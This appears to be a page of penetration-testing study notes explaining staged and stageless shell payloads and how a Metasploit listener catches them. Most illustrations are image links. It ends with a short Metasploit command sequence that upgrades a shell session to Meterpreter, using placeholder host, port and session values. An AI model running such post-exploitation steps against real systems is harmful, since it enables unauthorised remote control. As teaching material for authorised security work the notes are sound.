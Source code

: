 # Shells

![](<../../../../.gitbook/assets/image (25) (1) (1) (1) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1) (1) (1) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1) (1) (1) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1) (1) (1) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```
